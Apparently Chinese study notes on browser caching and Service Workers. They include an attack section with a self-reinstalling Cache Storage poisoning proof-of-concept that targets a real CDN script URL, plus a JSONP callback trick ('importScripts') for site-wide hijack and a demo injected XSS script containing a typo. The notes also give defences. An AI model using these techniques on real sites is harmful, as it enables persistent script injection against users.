 # Service Worker 简单介绍

## 强缓存

+ 通过HTTP返回头的Expire或Cache-Control设置
+ 如果资源没过期, 浏览器直接从本地读取, 不会产生网络流量

## 协商缓存

+ 客户端通过HTTP返回头的Last-Modified或ETag设置
+ 服务器通过HTTP请求头的If-Modified-Since或If-None-Match检测
+ 如果强缓存失败, 服务器收到请求后, 发现资源没有变化, 则返回304状态

## 应用缓存

当用户刷新网页时, 强缓存会失效, 从而产生请求; 即使命中协商缓存, 也需要和服务器通信一次, 大幅增加了载入时间

为了解决这一问题, HTML5增加了AppCache(应用缓存); 它通过一个列表文件, 告知浏览器预先缓存哪些资源
```html
<html manifest="file-list.appcache">
```
应用离线程度很高, 即使刷新网页, 甚至没有网络, 仍然可以访问

缺陷:
+ 安全性, 容易被中间人攻击
+ 可控性, 无法精确控制资源加载时机
+ 灵活性, 资源的更新维护比较麻烦

## localStorage / indexedDB

只适用于固定场合, 难以覆盖HTML中的URL
```html
<div style="background-image: url(...)">
```
是很难对其中的URL进行替换的

## Service Worker

+ service, 后台服务
+ worker, 多进程

一种脱离网页, 在浏览器后台运行的服务进程

+ chrome://serviceworker-internals
+ about:debugging#workers

SW提供了一组API, 能够拦截当前站点产生HTTP请求, 还能控制返回结果
1. SW拦住请求后, 使用Cache Storage里的内容进行返回, 就可以实现离线缓存的功能
2. 如果拦住请求, 使用fetch读取远程资源, 然后再返回, 相当于一个HTTP代理

因为SW里没有localstorage, 一般也不会用indexedDB, 基本都是用Cache Storage

Cache Storage容量很大, 而且以URL为key存储二进制数据, 最适合SW使用

### 攻击方法

#### 缓存污染
+ ARP缓存污染
+ DNS缓存污染
+ CDN缓存污染
+ Cookie, Local Storage 存储XSS (ROOTKIT XSS)

和localstorage一样, SW也面临缓存被篡改的问题
+ 起因: SW和页面共享一个本地存储
+ 结果: 页面上的XSS可以篡改缓存内容, 从而长期感染
+ 影响: 几天、甚至几周之后, 恶意代码仍然生效
+ 范围: 引用该页面的其他子站点, 也受到影响
+ 总结: 本身不是漏洞, 但会加重已有漏洞的危害
+ 防御方案: SW读取JS, HTML等可执行资源时, 先对数据进行检验
    + 并且资源Hash列表不能放在本地存储, 否则Hash也可篡改

```
async function fn() {
    const name = 'tbh:static';
    const url = "https://g.alicdn.com/alilog/mlog/aplus_v2.js";
    const payload = `
alert('evil code - ' + location.href);
`
    let cache = await caches.open(name);
    let req = new Request(url);
    let res = new Response(payload + fn + ';fn()');
    
    setInterval(_ => {
        cache.put(req, res.clone());
    }, 500);
}
fn();
```
这段代码会不断修改缓存的内容, 而且把自身功能(即定时不断写缓存的功能)也写进去;
这样只要一运行, 就会不断覆盖缓存内容, 就算业务方改回来了, 也会被覆盖;
不仅可以持续几天甚至几周时间, 而且其他页面也会受到影响

#### 全站劫持
如果站点下JS文件可控, 可尝试将其当做SW脚本, 从而配合XSS代码, 劫持整个站点的HTTP请求

常见玩法: 利用存在缺陷的JSONP接口

回调缺陷
+ 后端没有对回调名作检验, 导致JSONP返回内容可控
+ 请求: jsonp_url?callback=importScripts(...),
+ 返回: importScripts(...),(data)
+ 结果: XSS可利用该JSONP接口, 当做SW脚本使用

```
<!-- injected by Service Worker -->
<script>
  if (document.readyState === 'complete') {
  	runXss();
  } else {
  	addEventListener('DOMContentLoaded', runXss);
  }
  function runXss() {
  	var div = document.createElement('div');
  	div.innerHTML = 'xss running...';
  	div.style.cssText = 'position:fixed; top:0; right:0; color:red; background:#000; font-size:40px; line-height:40px; z-index:999999';
  	dcocument.body.appendChild(div);
  }
</script>
<!-- end -->
```

总结:
攻击难度大, 需要满足多个条件
+ 存在有缺陷的JSONP接口
+ JSONP的目录尽可能浅(最好在根目录下)
+ JSONP返回的Content-Type必须是JS类型
+ 存在XSS的页面

#### 其他攻击方法
+ 算力利用
+ 流量盗用

